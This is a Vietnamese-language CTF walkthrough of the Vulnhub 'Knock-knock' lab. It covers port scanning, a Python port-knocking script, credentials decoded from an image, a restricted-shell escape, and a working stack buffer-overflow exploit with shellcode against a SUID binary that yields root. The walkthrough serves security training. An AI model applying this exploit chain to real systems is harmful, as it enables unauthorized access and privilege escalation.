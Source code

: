 # Knock - knock Vulnhub Walkthrough
## Bước 1: Dò quét
Tìm Ip của VM knock knock
netdiscover -i eth0 -r 192.168.18.0/24
![image](https://hackmd.io/_uploads/S19I4xy8a.png)
![image](https://hackmd.io/_uploads/rywwNlkUT.png)


knock knock có IP là 192.168.18.143
Dùng nmap scan version và OS 
nmap -sT -sV -O 192.168.18.143
![image](https://hackmd.io/_uploads/HkS9Vl1U6.png)

nmap bị chặn scan version và OS
scan port
	nmap 192.168.18.143 -p-
![image](https://hackmd.io/_uploads/SyV6Vg186.png)

phát hiện port 1337 đang mở
Thử telnet vào port đó 
	telnet 192.168.18.143 1337
![image](https://hackmd.io/_uploads/BkkbBlyIp.png)

Nhận được 3 giá trị có vẻ như là các port 
Port Knocking là một kỹ thuật để kiểm soát quyền truy cập vào một cổng bằng cách chỉ cho phép người dùng hợp pháp truy cập vào dịch vụ đang chạy trên máy chủ. Nó hoạt động theo cách mà khi thực hiện đúng trình tự kết nối, tường lửa sẽ mở cổng đã bị đóng.

Dùng script để tự động connect đến các port này
script.py
```python=
#!/usr/bin/python 
import socket
import itertools
import sys
destination = "192.168.18.143"

def clean_up_ports (raw_string):
	if len(raw_string) <= 0:
		return None
	# Remove the first [
	raw_string = raw_string.replace('[','')
	# Remove the second ]
	raw_string = raw_string.replace(']','')
	#split by commas
	first_list = raw_string.split(',')
	# start e empty return list
	ports = []
	for port in first_list:
	# strip the whitespace around the string
	# and cast to a integer
		ports.append(int (port.strip()))
	return ports
def main():
	print "[+] Getting sequence"
	try:
		sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		sock.connect((destination, 1337))
	except Exception as e:
		print "[+] Unable to connect to %s on port 1337. %s" % (destination, e) 
		sys.exit(1)
	# receive the list 
	raw_list = sock.recv(20)
	# get the ports in a actual python list
	ports = clean_up_ports (raw_list)
	print "[+] Sequence is %s" % ports
	print "[+] Knocking on the door using all the possible combinations...\n"
	# Lets knock all of the possible combinations of the ports list
	for port_list in itertools.permutations (ports):
		print "[+] Knocking with sequence: %s" % (port_list,) 
	for port in port_list:
		print "[+] Knocking on port %s:%s" % (destination, port) 
		sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
		sock.settimeout(0.1)
		sock.connect_ex ((destination, port)) 
		sock.close()
	print "[+] Finished sequence knock\n"
if __name__  =='__main__':
	print "[+] Knock knock opener"
	main()
	print "[+] Done"
```



![image](https://hackmd.io/_uploads/BkrEBe1UT.png)

Bây giờ tiến hành scan lại 
 nmap -p-  192.168.18.143

![image](https://hackmd.io/_uploads/SJMIrgy8a.png)

Truy cập trên trình duyệt 
![image](https://hackmd.io/_uploads/B1_DBeJLp.png)

Xem mã nguồn thấy không có gì đặc biệt chỉ có ảnh knocknock.jpg
![image](https://hackmd.io/_uploads/SkrFSxy8a.png)

Dùng wfuzz tìm các file bị ẩn nhưng không có gì đặc biệt
wfuzz -c -z file,/usr/share/wordlists/rockyou.txt --hc 404 http://192.168.18.143/FUZZ

Tải ảnh bên trên về máy
wget http://192.168.18.143/knockknock.jpg

Dùng strings thấy một thông tin đăng nhập có vẻ được mã hóa 
![image](https://hackmd.io/_uploads/SyHqHeJIp.png)

Đây là mã caesar với ROT 13 
Decode bằng Cyberchef 
![image](https://hackmd.io/_uploads/Syvsre1Ua.png)

Thu được:
nosaJ
fnk2Pj9Bj
Nhìn có vẻ hơi ngược khi đảo ngược lại 
Jason
jB9jP2knf
Đây có lẽ là tài khoản SSH của user Jason
username: Jason
password: jB9jP2knf

## Bước 2: Khai thác Buffer Overflow 
![image](https://hackmd.io/_uploads/H16CrlJ86.png)

Login SSH thành công.

Tìm thấy chương trình “tfc” có quyền SUID
![image](https://hackmd.io/_uploads/rkAyLgy8a.png)

Đây là chương trình mã hóa tập tin, đối số thứ nhất là tệp đầu vào (văn bản thuần túy) và đối số thứ hai là tệp đầu ra (văn bản mật mã), cả đầu vào và đầu ra đều phải có đuôi .tfc.
Do shell hạn chế nên cần gọi shell từ python để bypass
![image](https://hackmd.io/_uploads/HkQzLxyL6.png)

python -c "import pty; pty.spawn('/bin/bash')"
![image](https://hackmd.io/_uploads/HkomIxJUT.png)

Encrypt thử file in.tfc
![image](https://hackmd.io/_uploads/SkwOUekIT.png)

Có thể thấy khi đảo ngược thứ tự file thì sẽ giải mã được 
Bây giờ chúng ta hãy thử một file lớn để xem nó có lỗ hổng Tràn bộ đệm hay không.
![image](https://hackmd.io/_uploads/SyFYIlkLa.png)

Có tồn tại Buffer overflow
Dùng tool [checksec.sh](https://www.trapkit.de/tools/checksec/) để kiểm tra 
![image](https://hackmd.io/_uploads/HJThLe18a.png)


không có bất cứ sự bảo vệ nào 
Do gdb chưa được cài đặt trên máy mục tiêu nên ta phải tải chương trình tfc xuống Kali của mình để phân tích thêm.
scp jason@192.168.18.143:tfc /
Hoặc gửi từ máy mục tiêu scp tfc kali@192.168.18.145:tfc

![image](https://hackmd.io/_uploads/HJyR8eJIp.png)



Dùng gdb phân tích
![image](https://hackmd.io/_uploads/B1a0Ue18T.png)

Tại sao ở đây là 0x0675c916 mà không phải  là 0x41414141? 
Tiếp theo, cần tìm đâu là độ lệch để chỉ cần thay đổi EIP. Sau khi thử một số độ dài khác nhau và kiểm tra giá trị của địa chỉ trả lại bằng gdb. Cuối cùng đã tìm thấy phần bù để ghi đè lên địa chỉ trả về (4124 byte).

Do 4 'A' luôn bắt đầu bằng cùng một byte 'def0 5bab' trong tệp được mã hóa, Vì vậy, 'def0 5bab' có thể được sử dụng như một mẫu để xác định vị trí dữ liệu được mã hóa trong tệp core.
![image](https://hackmd.io/_uploads/HkWWwlyL6.png)
![image](https://hackmd.io/_uploads/rkmMPg186.png)


Tiếp theo, sử dụng msfelfscan để lấy địa chỉ jmp esp.
msfelfscan -j esp /root/tfc
![image](https://hackmd.io/_uploads/rJImDxJLp.png)


Dùng linux / x86 / exec để tạo shellcode
![image](https://hackmd.io/_uploads/BJ4rDlJ8T.png)

Tạo file payload.py
```python=
#/usr/bin/python

shellcode = "\xdb\xc6\xd9\x74\x24\xf4\x5a\xb8\x7e\xda\xf3\x36\x31\xc9\xb1\x0b\x83\xea\xfc\x31\x42\x16\x03\x42\x16\xe2\x8b\xb0\xf8\x6e\xea\x17\x99\xe6\x21\xfb\xec\x10\x51\xd4\x9d\xb6\xa1\x42\x4d\x25\xc8\xfc\x18\x4a\x58\xe9\x13\x8d\x5c\xe9\x0c\xef\x35\x87\x7d\x9c\xad\x57\xd5\x31\xa4\xb9\x14\x35"

content = 'A' * 4124
content += "\x93\x8e\x04\x08"               # 0x08048e93 jmp esp
content += "\x90" * 20                       # padding 20 NOPs to protect shellcode
content += shellcode
content += 'C' * (5000 - 4124 - 4 -20 -70)  # padding with 'C'

print content
```




copy core ra file exp.tfc bỏ qua 239056byte (từ 3a5d0 hex)
dd if=core of=exp.tfc skip=239056 count=5000 bs=1
![image](https://hackmd.io/_uploads/HJnOPxk86.png)

Chạy thử trên máy kali đã lên đc root 
![image](https://hackmd.io/_uploads/rkstPg1LT.png)

Bây giờ tải exp.tfc lên máy mục tiêu và khai thác 

![image](https://hackmd.io/_uploads/SyIiwl18T.png)

Lấy được flag

![image](https://hackmd.io/_uploads/r1P2wgJLa.png)



